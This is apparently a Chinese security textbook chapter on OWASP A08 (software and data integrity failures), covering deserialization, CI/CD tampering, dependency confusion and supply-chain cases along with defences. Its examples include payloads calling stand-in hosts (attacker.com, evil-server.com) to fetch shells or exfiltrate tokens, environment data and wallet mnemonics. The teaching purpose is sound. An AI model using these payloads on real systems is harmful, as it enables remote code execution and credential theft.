






## 14.9 A08：软件和数据完整性失效（Software and Data Integrity Failures）

### 14.9.1 定义与本质

软件和数据完整性失效（Software and Data Integrity Failures）是 OWASP Top 10 2021 版新增的安全风险类别（编号 A08），它聚焦于**软件更新机制、关键数据处理流程、CI/CD 管道以及依赖管理中缺乏完整性验证**所导致的安全问题。这一类别对应的 CWE 编号为 CWE-829（通过不可信组件包含功能）和 CWE-494（下载代码时缺乏完整性验证），在 OWASP Top 10 的统计数据中，其平均影响权重排名第 10 位，但单次事件的最高影响可达灾难级别。

#### 为什么在 2021 版被单独提出？

在 2017 版 OWASP Top 10 中，供应链和数据完整性问题被分散归类到"A9：使用含有已知漏洞的组件"和"A5：安全配置错误"等条目中。然而，2020 年底爆发的 **SolarWinds 供应链攻击**事件彻底改变了安全社区的认知——攻击者渗透进入 SolarWinds 公司的构建系统，在其 Orion 平台的官方更新包中植入 SUNBURST 后门，导致全球 18,000 余个组织（包括多个美国政府机构和 Fortune 500 企业）遭到入侵。这一事件证明：**即使你信任的软件供应商，如果其构建和分发管道被篡改，你所部署的代码本身就可能是武器化的。**

OWASP 将此类风险单独提出，是为了提醒开发者：安全不仅是你写了什么代码，还包括你的代码在构建、传输和部署过程中是否保持完整。

#### 与其他 A08 类别的区分

- 与 **A06（脆弱和过时的组件）** 的区别：A06 关注的是你使用的第三方组件本身存在已知漏洞；A08 关注的是你获取和部署这些组件的过程是否安全——即使组件本身没有漏洞，如果传输渠道被篡改，你部署的可能是被注入了恶意代码的版本。
- 与 **A04（不安全设计）** 的区别：A04 是设计阶段的根本性缺陷；A08 是在正确的设计下，实现和运维环节缺乏完整性保障机制。



### 14.9.2 漏洞类型深度解析

A08 涵盖多个不同但相互关联的漏洞类型，下面逐一进行深度分析。

#### 14.9.2.1 不安全的反序列化（Insecure Deserialization）

反序列化（Deserialization）是将序列化的数据（如 JSON、XML、二进制格式）还原为内存中的对象的过程。当应用反序列化**不可信来源**的数据时，攻击者可以构造恶意的序列化数据，在反序列化过程中触发任意代码执行、拒绝服务或权限提升。

**核心原理**

在支持对象序列化的语言中（如 Java、PHP、Python、Ruby、.NET），对象的序列化数据通常包含类名和属性值。反序列化引擎会根据序列化数据中的类名实例化对象，并调用相关的魔法方法（如 Java 的 `readObject()`、PHP 的 `__wakeup()`、Python 的 `__reduce__()`）。如果应用的 classpath 中存在具有危险魔法方法的类（称为"小工具链"，Gadget Chain），攻击者就可以利用这些类在反序列化过程中执行任意操作。



**各语言中的典型攻击面**

| 语言 | 序列化格式 | 危险方法 | 常见小工具链 | 利用工具 |
|------|-----------|---------|-------------|---------|
| Java | Java Object Serialization, XML (XStream), JSON (Jackson) | `readObject()`, `readResolve()` | Commons Collections, Spring, Groovy, Javassist | ysoserial, JNDIExploit |
| PHP | PHP native serialize, PHAR | `__wakeup()`, `__destruct()`, `__toString()` | Monolog, Guzzle, Laravel | phpggc, ysoserial |
| Python | Pickle, PyYAML, shelve | `__reduce__()`, `__reduce_ex__()` | os.system, subprocess | Pickle RCE payloads |
| Ruby | Marshal, YAML (Psych) | `respond_to?()`, `instance_eval()` | ERB, Gem::Requirement | Ruby deserialization payloads |
| .NET | BinaryFormatter, JSON.NET TypeNameHandling | `OnDeserialized()`, `IDeserializationCallback` | WindowsIdentity, TypeConfuseDelegate | ysoserial.net, James Forshaw's gadgets |

**Java 反序列化漏洞详解**

Java 是反序列化漏洞的重灾区。`ObjectInputStream.readObject()` 不会对反序列化的类做任何安全校验——只要 classpath 中能找到对应的类，就会直接实例化。

```java
// 漏洞代码示例：直接反序列化用户输入
public void handleRequest(HttpServletRequest request) {
    ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
    Object obj = ois.readObject();  // 危险：直接反序列化不可信数据
    // 如果 classpath 中有 Commons Collections，则可被利用执行任意命令
}
```

攻击者利用 ysoserial 工具生成恶意 payload：

```bash
# 生成 CommonsCollections1 gadget payload
java -jar ysoserial.jar CommonsCollections1 'touch /tmp/pwned' | base64

# 通过 HTTP 请求发送恶意序列化数据
curl -X POST http://target/api/deserialize \
  -H "Content-Type: application/octet-stream" \
  --data-binary @payload.ser
```

**PHP 反序列化漏洞详解**

PHP 的 `unserialize()` 函数同样存在反序列化漏洞，但攻击方式有所不同——利用对象生命周期中的魔术方法链。

```php
<?php
// 漏洞代码
class Logger {
    public $logFile;
    public $content;
    
    public function __destruct() {
        // 危险：将内容写入由 $logFile 控制的文件
        file_put_contents($this->logFile, $this->content);
    }
}

class CacheManager {
    public $cacheFile;
    public $command;
    
    public function __wakeup() {
        // 危险：执行由 $command 控制的系统命令
        system($this->command);
    }
}

// 攻击者构造恶意 payload
$payload = 'O:12:"CacheManager":2:{s:9:"cacheFile";s:1:"x";s:7:"command";s:22:"curl attacker.com/sh";}';
unserialize($payload);  // 触发 __wakeup()，执行系统命令
?>
```

**Python Pickle 反序列化漏洞**

Python 的 pickle 模块在设计上就不安全——它允许在反序列化过程中执行任意代码。

```python
import pickle
import os

# 攻击者构造恶意 pickle payload
class MaliciousPayload:
    def __reduce__(self):
        # __reduce__ 的返回值告诉 pickle 如何重建对象
        # 这里返回的是 (callable, args) 元组
        return (os.system, ('curl http://attacker.com/sh | bash',))

# 序列化恶意对象
payload = pickle.dumps(MaliciousPayload())

# 目标应用反序列化时执行系统命令
pickle.loads(payload)  # 触发 os.system('curl http://attacker.com/sh | bash')
```

#### 14.9.2.2 CI/CD 管道完整性失效

现代软件开发高度依赖 CI/CD（持续集成/持续部署）管道来自动化构建、测试和部署流程。如果这些管道缺乏完整性验证，攻击者一旦渗透进管道中的任何一个环节，就可以在构建过程中注入恶意代码，而下游用户会完全信任这些"官方构建"的产物。

**CI/CD 管道攻击面分析**



**典型攻击场景**

**场景一：构建脚本注入**

攻击者通过提权或凭据泄露获得 CI 系统（如 Jenkins、GitHub Actions）的修改权限，在构建脚本中注入恶意步骤：

```yaml
# 被篡改的 GitHub Actions workflow
name: Build and Release
on: push
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Build
        run: npm run build
      # ↓ 攻击者注入的恶意步骤
      - name: "Publish metrics"  # 伪装名称
        run: |
          curl -s http://attacker.com/exfil?token=$(cat ~/.npmrc | base64)
          echo "aW1wb3J0IG9z" | base64 -d >> dist/index.js
```

**场景二：依赖混淆攻击（Dependency Confusion）**

2021 年，安全研究员 Alex Birsan 披露了依赖混淆攻击——在公共包仓库（npm、PyPI、RubyGems）中发布与目标企业内部包同名的恶意包，利用包管理器优先从公共仓库下载的默认配置，让目标企业在构建时自动拉取恶意包。

```bash
# 攻击者在 PyPI 上注册目标企业内部使用的包名
# 例如目标企业内部有一个叫 @corp/auth-utils 的包

# 攻击者的恶意包 setup.py
from setuptools import setup
import os

# 在安装时收集环境信息并回传
os.system("curl http://attacker.com/exfil -d $(hostname)-$(whoami)-$(env)")

setup(
    name='auth-utils',  # 与企业内部包同名
    version='99.0.0',   # 更高的版本号确保优先下载
    ...
)
```

**场景三：构建缓存投毒**

攻击者篡改 CI 系统的缓存（如 npm cache、Docker layer cache），使得后续构建使用被污染的缓存层。

#### 14.9.2.3 软件更新机制缺乏完整性验证

软件自动更新机制如果缺乏数字签名验证，就可能在传输过程中被篡改（中间人攻击），或者更新服务器本身被攻陷后分发恶意更新。

**未验证更新的攻击流程**



**真实案例：CCleaner 供应链攻击（2017）**

2017 年 9 月，知名系统清理工具 CCleaner 的官方版本被发现含有后门。攻击者渗透了 Piriform（CCleaner 开发公司）的构建服务器，在编译阶段注入恶意代码。由于安装包通过官方渠道分发，且 32 位版本拥有有效的数字签名，约 227 万台电脑下载并安装了受感染的 v5.33.6162 版本。恶意代码会收集用户系统信息回传到 C2 服务器，并对特定目标下发第二阶段 payload。

#### 14.9.2.4 供应链攻击（Supply Chain Attacks）

供应链攻击是 A08 最具破坏力的子类别，它不直接攻击目标，而是攻击目标所信任的上游组件或服务提供商。

**供应链攻击的层次模型**

| 攻击层次 | 攻击目标 | 典型案例 | 影响范围 |
|---------|---------|---------|---------|
| 源代码层 | 直接篡改开源/闭源项目源码 | event-stream（2018）, Webmin（2019） | 所有使用者 |
| 构建层 | 篡改构建环境或注入构建时后门 | SolarWinds（2020）, Codecov（2021） | 所有构建产物用户 |
| 分发层 | 篡改分发渠道（CDN、镜像、仓库） | PHP 官方镜像篡改（2021）, Gentoo GitHub 被接管（2018） | 从该渠道获取的用户 |
| 依赖层 | 混淆攻击、Typosquatting | event-stream（2018）, ua-parser-js（2021） | 误安装恶意包的用户 |
| 运行时层 | 篡改运行时环境（容器镜像、OS 包） | Docker Hub 恶意镜像（2018-持续） | 使用该镜像的用户 |

**案例：event-stream 事件（2018）**

这是 npm 生态中最著名的供应链攻击之一。攻击者（GitHub 用户 `right9ctrl`）主动维护了流行的 `event-stream` 包，获取发布权限后，在依赖中添加了 `flatmap-stream` 包。该包表面上是无害的流处理工具，实则含有高度混淆的恶意代码，专门针对 Copay 比特币钱包应用——在检测到 Copay 环境后，会窃取用户的钱包私钥和密码。

```javascript
// flatmap-stream 中的恶意代码（简化示例，原代码高度混淆）
// 检测是否在 Copay 钱包环境中运行
if (package.name === 'copay') {
    // 窃取钱包数据并发送到攻击者服务器
    var http = require('http');
    var data = JSON.stringify({
        wallet: userInfo,
        mnemonic: mnemonic  // 助记词 = 所有钱
    });
    http.request({
        hostname: 'evil-server.com',
        path: '/collect',
        method: 'POST'
    }).end(data);
}
```

### 14.9.3 攻击影响分析

A08 漏洞的影响通常极其严重，因为它们发生在信任边界之内——受害者主动安装了"官方"软件，防御系统默认信任这些行为。

**影响维度评估**

| 影响维度 | 严重程度 | 说明 |
|---------|---------|------|
| 机密性 | 高-严重 | 供应链后门可窃取任意数据：源码、密钥、用户数据、内部配置 |
| 完整性 | 严重 | 攻击者可篡改任意数据和代码，破坏系统可信基础 |
| 可用性 | 中-高 | 可植入勒索软件或破坏性 payload，导致系统不可用 |
| 影响范围 | 极广 | 供应链攻击可同时影响数千至数百万下游用户 |
| 检测难度 | 极高 | 恶意代码混入合法更新中，传统安全工具难以识别 |
| 持续时间 | 长 | 从植入到发现平均 200+ 天（SolarWinds 隐蔽 9 个月） |

**CVSS v3.1 评分范围**

根据具体的漏洞类型和利用场景，A08 相关 CVE 的 CVSS 评分通常在 7.5-10.0 之间：

- 不安全反序列化（RCE）：9.8（Critical）
- CI/CD 管道被篡改：9.0-10.0（Critical）
- 更新机制无签名验证：7.5-8.1（High）
- 依赖混淆攻击：7.5-8.1（High）

### 14.9.4 检测与识别

#### 14.9.4.1 静态代码分析

检测应用中是否存在直接反序列化不可信数据的代码模式：

```bash
# 使用 Semgrep 检测 Java 中的不安全反序列化
semgrep --config "p/java" --include "*.java" \
  --pattern "new ObjectInputStream(...)" .

# 使用 Semgrep 检测 PHP 中的 unserialize 调用
semgrep --config "p/php" --include "*.php" \
  --pattern "unserialize(...)" .

# 使用 grep 检测 Python pickle 使用
grep -rn "pickle\.loads\|pickle\.load\|shelve\.open" --include="*.py" .
```

**需要检查的危险代码模式**

| 语言 | 危险模式 | 安全替代方案 |
|------|---------|-------------|
| Java | `new ObjectInputStream(input).readObject()` | 使用 JSON（Jackson with `enableDefaultTyping` 也需谨慎）并白名单校验类 |
| PHP | `unserialize($userInput)` | 使用 `json_decode()`，避免反序列化不可信数据 |
| Python | `pickle.loads(data)` / `yaml.load(data)` | 使用 `json.loads()`，YAML 用 `yaml.safe_load()` |
| Ruby | `Marshal.load(data)` / `YAML.load(data)` | 使用 `JSON.parse()`，YAML 用 `YAML.safe_load()` |
| .NET | `BinaryFormatter.Deserialize(stream)` | 使用 `System.Text.Json` 或 `XmlSerializer`（需配置白名单） |

#### 14.9.4.2 供应链安全审计

```bash
# npm 供应链审计
npm audit                    # 检查已知漏洞
npm audit signatures         # 验证包签名（npm 7+）
npm ls --all                 # 查看完整依赖树

# Python 供应链审计
pip-audit                    # 检查已知漏洞
pip hash package.whl         # 计算包 hash
pip install --require-hashes # 强制 hash 校验

# 检查依赖混淆风险
# 检查 package.json 中是否有 @scope/private-pkg 在公共仓库可同名获取
npm view <package-name> --registry https://registry.npmjs.org
```

#### 14.9.4.3 CI/CD 管道安全审计

审计要点清单：

- 构建脚本是否从可信源获取（而非可被第三方修改的 URL）
- CI/CD 凭据是否遵循最小权限原则
- 构建日志中是否泄露敏感信息（密钥、token）
- 制品是否在构建后进行完整性校验（签名、hash）
- 构建环境是否使用固定版本的工具链（而非 latest 标签）
- 是否有代码审查流程防止恶意构建脚本修改

### 14.9.5 防御策略与最佳实践

#### 14.9.5.1 反序列化安全防护

**原则一：永远不要反序列化不可信数据**

这是最根本的防御。如果业务场景确实需要接受序列化数据，应优先使用安全的数据格式（JSON、Protocol Buffers），并严格限制可反序列化的类型。

**原则二：类型白名单校验**

当必须使用对象序列化时，强制限制允许反序列化的类：

```java
// Java：使用 ObjectInputFilter（JEP 290，Java 9+）
ObjectInputStream ois = new ObjectInputStream(inputStream);
ois.setObjectInputFilter(info -> {
    if (info.serialClass() != null) {
        // 只允许白名单中的类
        String className = info.serialClass().getName();
        if (!ALLOWED_CLASSES.contains(className)) {
            return ObjectInputFilter.Status.REJECTED;
        }
    }
    return ObjectInputFilter.Status.ALLOWED;
});
Object obj = ois.readObject();
```

```python
# Python：使用受限的 JSON 替代 pickle
import json
import hashlib

def secure_load(data: bytes) -> dict:
    """只接受 JSON 格式数据，不接受 pickle"""
    try:
        return json.loads(data)
    except json.JSONDecodeError:
        raise ValueError("Only JSON format is accepted, pickle is forbidden")

# 如果必须使用 pickle，至少验证 HMAC 签名
import hmac
SECRET_KEY = b'your-secret-key'

def signed_load(data: bytes, signature: bytes) -> object:
    expected_sig = hmac.new(SECRET_KEY, data, 'sha256').digest()
    if not hmac.compare_digest(expected_sig, signature):
        raise ValueError("Signature mismatch - data may be tampered")
    return pickle.loads(data)
```

```php
<?php
// PHP：使用 JSON 替代 unserialize
// 安全方案
$data = json_decode($userInput, true);

// 如果必须使用 unserialize，限制允许的类
$allowedClasses = ['App\Models\User', 'App\Models\Config'];
$data = unserialize($userInput, ['allowed_classes' => $allowedClasses]);
// PHP 8.0+ 支持 allowed_classes 参数
?>
```

**原则三：WAF 和 RASP 防护**

部署运行时应用自我保护（RASP）来监控反序列化行为：

```yaml
# WAF 规则示例（检测 Java 序列化魔术头）
SecRule REQUEST_BODY "@rx \xac\xed\x00\x05" \
    "id:1001,phase:2,deny,status:403,\
    msg:'Java serialized object detected in request body',\
    tag:'attack-insecure-deserialization'"
```

#### 14.9.5.2 供应链安全防护

**软件物料清单（SBOM）**

SBOM 是软件中所有组件的完整清单，类似于食品的配料表。它是供应链安全的基础——只有知道你的软件里有什么，才能在漏洞披露时快速响应。

```bash
# 使用 Syft 生成 SBOM
syft dir:/path/to/project -o spdx-json > sbom.spdx.json
syft dir:/path/to/project -o cyclonedx-json > sbom.cdx.json

# 使用 Grype 扫描 SBOM 中的已知漏洞
grype sbom:sbom.spdx.json

# npm 自动生成 lockfile 作为依赖锁定
npm ci --package-lock-only  # 确保 package-lock.json 与 package.json 同步
```

**依赖锁定与完整性校验**

```json
// package-lock.json 中的 integrity 字段（npm 5+）
{
  "packages": {
    "node_modules/express": {
      "version": "4.18.2",
      "resolved": "https://registry.npmjs.org/express/-/express-4.18.2.tgz",
      "integrity": "sha512-...base64hash..."
    }
  }
}
```

```toml
# requirements.txt 中的 hash 校验（pip）
# 生成：pip hash package.whl
requests==2.31.0 \
    --hash=sha256:abcdef1234567890... \
    --hash=sha256:fedcba0987654321...
```

```yaml
# GitHub Actions：使用 Action 的完整 commit SHA（而非 tag）
# 不安全：uses: actions/checkout@v3（tag 可被移动）
# 安全：uses: actions/checkout@f43a0e5ff2bd294095638e18d46e90537bb7b1f3
# （commit hash 不可变，且可验证签名）
```

**私有仓库优先策略**

为防止依赖混淆攻击，企业应：

```npmrc
# .npmrc 配置：内部包使用私有 registry
@your-company:registry=https://npm.internal.your-company.com/
registry=https://registry.npmjs.org/
```

```bash
# pip.conf 配置
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
extra-index-url = https://pypi.internal.your-company.com/simple/
# 不建议使用 extra-index-url，应使用 --index-url + 私有仓库代理
```

#### 14.9.5.3 CI/CD 管道安全加固

**构建产物签名**

```bash
# 使用 cosign（Sigstore）对容器镜像签名
cosign sign --key cosign.key registry.example.com/app:v1.0
cosign verify --key cosign.pub registry.example.com/app:v1.0

# 使用 GPG 对 Git commit 签名
git config --global user.signingkey <GPG_KEY_ID>
git commit -S -m "Signed commit"

# 对构建产物生成 SLSA provenance
# 使用 GitHub Attestations（SLSA Level 3）
gh attestation verify app.tar.gz --owner your-org
```

**SLSA（Supply-chain Levels for Software Artifacts）框架**

SLSA 由 Google 提出，定义了软件供应链安全的四个级别：

| SLSA 级别 | 要求 | 防御能力 |
|-----------|------|---------|
| Level 1 | 构建过程有文档记录 | 防止无意错误 |
| Level 2 | 使用托管构建服务，生成溯源信息（provenance） | 防止简单的篡改 |
| Level 3 | 构建平台经过安全审计，溯源信息不可伪造 | 防止构建平台被入侵后的篡改 |
| Level 4 | 双人审查所有构建脚本变更，密封构建环境 | 防止内部人员恶意篡改 |

**CI/CD 安全配置模板**

```yaml
# GitHub Actions 安全最佳实践
name: Secure Build Pipeline
on:
  push:
    branches: [main]
    # 限制触发条件，防止恶意 PR 触发
  pull_request:
    branches: [main]

permissions:
  contents: read  # 最小权限原则
  packages: write

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      # 使用完整的 commit hash 而非 tag
      - uses: actions/checkout@f43a0e5ff2bd294095638e18d46e90537bb7b1f3
        with:
          fetch-depth: 1

      - name: Verify dependencies
        run: |
          npm ci  # 使用 lockfile 而非 npm install
          npm audit --audit-level=high

      - name: Build
        run: npm run build

      - name: Generate SBOM
        run: syft dir:. -o spdx-json > sbom.spdx.json

      - name: Sign artifact
        run: |
          cosign sign --key env://COSIGN_KEY dist/app.tar.gz
        env:
          COSIGN_KEY: ${{ secrets.COSIGN_PRIVATE_KEY }}

      - name: Generate SLSA provenance
        uses: slsa-framework/slsa-github-generator@v1.9.0
```

#### 14.9.5.4 更新机制安全加固



```bash
# 验证下载文件的 GPG 签名
gpg --verify app-v2.1.0.tar.gz.asc app-v2.1.0.tar.gz
# 期望输出：Good signature from "Developer <dev@example.com>"

# 验证 SHA256 校验和
echo "abc123...  app-v2.1.0.tar.gz" | sha256sum -c
# 期望输出：app-v2.1.0.tar.gz: OK

# 使用 minisign（更简单的签名工具）
minisign -V -P "RWQ...publickey..." -m app-v2.1.0.tar.gz
```

### 14.9.6 真实案例深度剖析

#### 14.9.6.1 SolarWinds 供应链攻击（2020）

这是推动 A08 被纳入 OWASP Top 10 的标志性事件。攻击者（据信为俄罗斯 SVR 的 APT29 组织）渗透了 SolarWinds 的构建环境，在 Orion Platform 的更新包 v2019.4 到 v2020.2.1 中植入了名为 SUNBURST 的后门。详细技术分析请参见本章实战案例部分"案例五：SolarWinds 供应链攻击"。

**关键教训**：
- 构建环境是高价值攻击目标，应获得与生产环境同等级别的安全防护
- 数字签名无法防御构建时注入——签名的是被篡改后的代码
- 需要"可重现构建"（Reproducible Builds）来验证构建产物与源码的一致性

#### 14.9.6.2 Codecov Bash Uploader 篡改（2021）

2021 年 4 月，代码覆盖率工具 Codecov 发现其 Bash Uploader 脚本被篡改了两个月。攻击者修改了 Docker 镜像中的脚本，使其在执行时窃取 CI/CD 环境变量（包含密钥、token、凭据），并将数据发送到外部服务器。

**攻击向量**：Codecov 的 CI 环境中存在配置错误，导致攻击者可以修改其在 Google Cloud Storage 上托管的脚本。

**影响**：使用 Codecov 的 29,000+ 个组织受到影响，CI/CD 环境中的敏感凭据可能被泄露。

**关键教训**：
- 外部工具脚本（curl | bash 模式）是高风险行为
- CI/CD 凭据应定期轮换，且应限制为最小权限
- 从 CDN 下载的脚本应验证完整性

#### 14.9.6.3 Log4Shell 的供应链维度（2021）

虽然 Log4Shell（CVE-2021-44228）本身是 Log4j 的 JNDI 注入漏洞（归类为 A03 注入），但它同时暴露了严重的供应链完整性问题：数以百万计的应用通过依赖链间接引入了 Log4j，许多组织在漏洞披露后数周都无法确定自己是否受影响。

**关键教训**：
- SBOM 不是可选项——没有它，你甚至不知道自己的软件里有什么
- 传递依赖（transitive dependencies）是最大的盲区
- 需要自动化的依赖漏洞扫描集成到 CI/CD 流程中

#### 14.9.6.4 ua-parser-js 供应链攻击（2021）

2021 年 10 月，周下载量超过 700 万的 npm 包 `ua-parser-js` 的维护者账号被劫持，攻击者发布了两个包含恶意代码的版本（0.7.29、0.8.0、1.0.0）。恶意代码在 Linux 上安装加密货币矿工，在 Windows 上安装密码窃取器。

**关键教训**：
- 高下载量的 npm 包是高价值攻击目标
- npm 2FA（双因素认证）对包发布至关重要
- 消费者应固定依赖版本并验证 integrity hash

### 14.9.7 安全工具与框架

#### 14.9.7.1 反序列化安全工具

| 工具 | 用途 | 平台 |
|------|------|------|
| [ysoserial](https://github.com/frohoff/ysoserial) | Java 反序列化 payload 生成器 | Java |
| [ysoserial.net](https://github.com/pwntester/ysoserial.net) | .NET 反序列化 payload 生成器 | .NET |
| [phpggc](https://github.com/ambionics/phpggc) | PHP 反序列化 gadget chain 生成器 | PHP |
| [GadgetProbe](https://github.com/BishopFox/GadgetProbe) | 探测 Java classpath 中可用的小工具链 | Java |
| [Freddy](https://github.com/borgoat/Freddy) | Burp Suite 反序列化检测插件 | Burp Suite |
| [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner) | Burp Suite Java 反序列化扫描器 | Burp Suite |
| [marshalsec](https://github.com/mbechler/marshalsec) | Java JSON/XML 反序列化利用工具 | Java |

#### 14.9.7.2 供应链安全工具

| 工具 | 用途 | 类型 |
|------|------|------|
| [Syft](https://github.com/anchore/syft) | SBOM 生成（SPDX、CycloneDX） | CLI |
| [Grype](https://github.com/anchore/grype) | SBOM/容器镜像漏洞扫描 | CLI |
| [Trivy](https://github.com/aquasecurity/trivy) | 容器/文件系统/仓库漏洞扫描 | CLI |
| [Dependabot](https://github.com/dependabot) | GitHub 自动依赖更新 | GitHub App |
| [Renovate](https://github.com/renovatebot/renovate) | 多平台自动依赖更新 | Bot |
| [Socket.dev](https://socket.dev/) | npm/PyPI 包行为分析 | SaaS |
| [Snyk](https://snyk.io/) | 依赖漏洞扫描与修复建议 | SaaS/CLI |
| [Sigstore/Cosign](https://github.com/sigstore/cosign) | 容器镜像/文件签名验证 | CLI |
| [in-toto](https://in-toto.io/) | 供应链完整性框架 | Framework |
| [SLSA](https://slsa.dev/) | 供应链安全级别框架 | Standard |

### 14.9.8 测试方法论

#### 14.9.8.1 不安全反序列化测试流程



**具体测试步骤**

